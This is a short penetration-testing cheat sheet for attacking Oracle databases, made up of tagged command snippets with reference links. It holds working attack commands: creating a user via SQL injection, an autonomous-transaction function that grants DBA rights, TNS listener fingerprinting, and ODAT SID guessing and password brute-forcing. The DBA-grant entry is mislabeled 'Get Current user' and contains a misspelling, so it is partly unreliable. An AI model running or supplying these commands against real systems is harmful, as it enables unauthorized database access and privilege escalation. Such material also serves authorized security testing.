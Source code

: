 ### 1. oracle add user
```
create user victor identified by pass123 temporary tablespace temp default tablespace users;grant connect to victor;grant resource to victor;
```
**- web application,sql injection,Oracle**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
__________
### 2. Fingerprint remote oracle server
```
tnscmd10g version -h [victim]
```
**- enumeration,Oracle**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
http://cyborg.ztrela.com/tnscmd10g.php/
__________
### 3. Get Current user oracle DB : CMD new lines removed
```
CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid curren_user is pragma autonomous_transaction; begin execute immediate 'grant dba to user1 identified by pass1'; commit; return 'FOO'; end;
```
**- enumeration,Oracle**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 4. Used to guess common SIDs in Oracle databases
```
/path/to/odat/odat-libc2.5-x86_64 sidguesser -s [IP]
```
**- brute,Oracle,database**
#### References:

https://github.com/quentinhardy/odat
https://www.darknet.org.uk/2014/07/odat-oracle-database-attacking-tool-test-oracle-database-security/
http://www.kitploit.com/2014/07/odat-oracle-database-attacking-tool.html
__________
### 5. Used to brute common passwords in Oracle TNS listener
```
/path/to/odat/odat-libc2.5-x86_64 passwordguesser -d [SID] -s [IP]
```
**- brute,Oracle,database**
#### References:

https://www.darknet.org.uk/2014/07/odat-oracle-database-attacking-tool-test-oracle-database-security/
http://www.kitploit.com/2014/07/odat-oracle-database-attacking-tool.html
__________
